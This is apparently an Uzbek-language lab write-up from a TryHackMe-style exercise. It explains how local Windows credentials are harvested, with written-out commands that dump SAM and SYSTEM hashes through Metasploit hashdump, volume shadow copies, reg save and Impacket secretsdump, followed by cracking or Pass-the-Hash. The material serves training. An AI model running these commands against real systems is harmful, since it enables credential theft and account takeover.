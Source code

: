 ### 🪪 **Windows tizimida Lokal va Domain foydalanuvchilar:**

Windows operatsion tizimi odatda ikki turdagi foydalanuvchi hisoblarini taqdim etadi:

1. **Lokal foydalanuvchilar** — ularning ma’lumotlari (login/parol) lokal diskda (`C:\Windows\System32\Config`) saqlanadi.
2. **Domen foydalanuvchilari** — ularning ma’lumotlari markazlashtirilgan **Active Directory** serverida saqlanadi.

Bu vazifada lokal foydalanuvchi akkountlari uchun credential (login parol) ma’lumotlarini qanday olish mumkinligi muhokama qilinadi.

---

## 🧠 **Klaviatura yozuvlarini olish (Keylogger):**

**Keylogger** — foydalanuvchi klaviaturada bosgan tugmalarini kuzatuvchi dastur yoki qurilmadir.

* Dastlab **ota-onalar nazorati** yoki **dasturiy ta’minot testlari** uchun yaratilgan.
* Ammo **xavfli maqsadlarda** (parolni o‘g‘irlash) ishlatilishi mumkin.
* **Red Team** (hujum testchilari) foydalanuvchidan login/parol olish uchun **Metasploit** kabi vositalardan foydalanib, **keylogger** ishga tushirishadi.

---

## 🧩 **SAM – Security Account Manager**

**SAM (Security Account Manager)** – Windows’ning maxsus fayli bo‘lib, **lokal foydalanuvchilar login va parollarini (hash shaklida) saqlaydi**.

* Bu fayl `C:\Windows\System32\config\sam` joylashgan.
* **Windows ishlayotgan paytda** bu faylni **ochish yoki nusxalash mumkin emas**:

  ```cmd
  type C:\Windows\System32\config\sam
  -> Faylga boshqa jarayon foydalanayotganligi sababli kirib bo‘lmaydi
  ```

---

## 🛠️ **Metasploit orqali SAM hashlarini olish – `hashdump`:**

`hashdump` buyrug‘i orqali SAM faylidagi hashlar olinadi:

```bash
meterpreter > getuid
Server username: THM\Administrator

meterpreter > hashdump
Administrator:500:...:98d3b784d80d18385cea5ab3aa2a4261:::
Guest:501:...:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Bu usul **LSASS.exe** (Local Security Authority) jarayoni ichiga kod joylashtirib, xotiradan ma’lumot olish orqali ishlaydi.

---

## 💿 **Volume Shadow Copy orqali SAM faylini olish:**

**Volume Shadow Copy Service (VSS)** – Windows'ning **zaxira nusxa olish** xizmatidir. Bu yordamida ishlatilayotgan fayllarning **nusxasini olish mumkin**.

### Qadamlar:

1. **Administrator CMD** ochiladi.

2. **Shadow copy yaratiladi**:

   ```cmd
   wmic shadowcopy call create Volume='C:\'
   ```

3. **Yaratilgan nusxa ko‘riladi**:

   ```cmd
   vssadmin list shadows
   ```

4. **SAM va SYSTEM fayllarini ko‘chirib olinadi**:

   ```cmd
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
   ```

> SYSTEM fayli kerak, chunki SAM hashlarini **ochish (decrypt)** uchun **kalitlar SYSTEM faylida** saqlanadi.

---

## 🧾 **Windows Registry orqali SAM olish:**

Windows Registry’da ham **SAM va SYSTEM** ma’lumotlari bo‘ladi. Bularni **`reg save`** buyrug‘i yordamida saqlab olish mumkin:

```cmd
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```

---

## 🧪 **Impacket (secretsdump.py) bilan hashlarni ochish:**

Impacket’ning `secretsdump.py` skripti lokal SAM fayllardan hashlarni chiqarib beradi:

```bash
python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

Natija quyidagicha ko‘rinadi:

```
[*] Dumping local SAM hashes
Administrator:500:...:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:...:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> Bu parollar **NTLM hash** formatida bo‘ladi va **hashcat** bilan bruteforce qilib ochish mumkin.

---

## 🔐 **Domain foydalanuvchilar haqida eslatma:**

Agar hashdump natijasida faqat **lokal foydalanuvchilar chiqsa**, bu – SYSTEM fayl **domain foydalanuvchilarga tegishli bo‘lmaganidan**. Domain foydalanuvchilar hashini olish uchun **SECURITY fayl** ham kerak bo‘ladi.

---

### ✅ Xulosa:

🔹 Lokal credentiallarni olish uchun:

* `hashdump` (Metasploit)
* Shadow Copy xizmatidan foydalanish
* Registry`dan `reg save\` bilan olish
* Impacket bilan ochish (`secretsdump.py`)

🔹 Olingan hashlar **parolni olish yoki foydalanuvchini soxtalashtirish** uchun ishlatiladi (Pass-the-Hash).
